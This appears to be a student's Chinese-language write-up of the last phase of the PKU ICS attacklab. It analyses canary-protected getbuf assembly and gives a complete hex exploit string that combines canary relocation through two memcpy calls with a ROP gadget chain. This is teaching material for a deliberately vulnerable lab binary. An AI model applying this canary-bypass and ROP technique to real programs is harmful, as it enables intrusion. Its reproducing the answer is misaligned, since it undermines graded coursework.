

### 这个是我在做2023年PKU ICS attacklab的笔记
### 让有缘人可以有所参考

直接看最后一题吧，别的大家都应该可以找到题解。
我的思路来自树洞，这条一年前的树洞让我豁然开朗。

所以我们简单的画一下图，可以看得到其实应该是这样的：

然后注意到```starget.s```中的```getbuf_withcanary```汇编代码
```assembly
40228d:	8b 85 70 ff ff ff    	mov    -0x90(%rbp),%eax
402293:	48 63 d0             	movslq %eax,%rdx
402296:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
40229d:	48 8d 88 08 01 00 00 	lea    0x108(%rax),%rcx
4022a4:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
4022ab:	48 89 ce             	mov    %rcx,%rsi
4022ae:	48 89 c7             	mov    %rax,%rdi
4022b1:	e8 ba f0 ff ff       	call   401370 <memcpy@plt>
4022b6:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
4022bc:	48 63 d0             	movslq %eax,%rdx
4022bf:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
4022c6:	48 8d 8d 70 fe ff ff 	lea    -0x190(%rbp),%rcx
4022cd:	48 81 c1 08 01 00 00 	add    $0x108,%rcx
4022d4:	48 89 c6             	mov    %rax,%rsi
4022d7:	48 89 cf             	mov    %rcx,%rdi
4022da:	e8 91 f0 ff ff       	call   401370 <memcpy@plt>
```
这里面我们可以看到有两次```memcpy```，所以基本的思想就是把```canary```值移下来，再移回去。
事实上，根据寄存器传递参数的顺序和```memcpy```的定义知道：
第一次是这样的：```memcpy(dest=%rsp, src=%rsp+0x108, len=(%rsp+0x100))```
第二次是这样的：```memcpy(dest=%rsp+0x108, src=%rsp, len=(%rsp+0x104))```
第一次，我们可以将```%rsp+0x108 ~ %rsp+0x198-1```的值移下来，这个时候的金丝雀值是放在了```%rsp+0x80```指向的地方，同时```%rsp+0x88```指向的地方应该是在上移后成为原先保存寄存器```%rbp```的地方。所以我们的注入的代码应该是从```%rsp+0x90```开始，同时最高只能到```%rsp+0x100-1```。（这里是16进制，所以这两个地址之间实际上差了```0x70```大小，也就是```112```字节，所以是不用担心的。）

然后注意到在```starget.s```里，```start_farm```等的地址和```rtarget.s```里面都是一样的，所以我们可以直接放心大胆的把```phase 5```里的东西填充到从```%rsp+0x90```开始。

最后我们输入的字符串应该就是这样的：
```plain-text
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
50 24 40 00 00 00 00 00
40 23 40 00 00 00 00 00
2a 23 40 00 00 00 00 00
48 00 00 00 00 00 00 00
06 24 40 00 00 00 00 00
86 24 40 00 00 00 00 00
30 24 40 00 00 00 00 00
62 23 40 00 00 00 00 00
40 23 40 00 00 00 00 00
3d 21 40 00 00 00 00 00
37 61 65 61 61 62 39 33
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
90 00 00 00 00 01 00 00 /* 这里输入的是那两个长度，好像大个8字节小个8字节不太有影响*/
```

最后，如果你觉得对你有帮助，就快点去看小熊猫喔！！！！
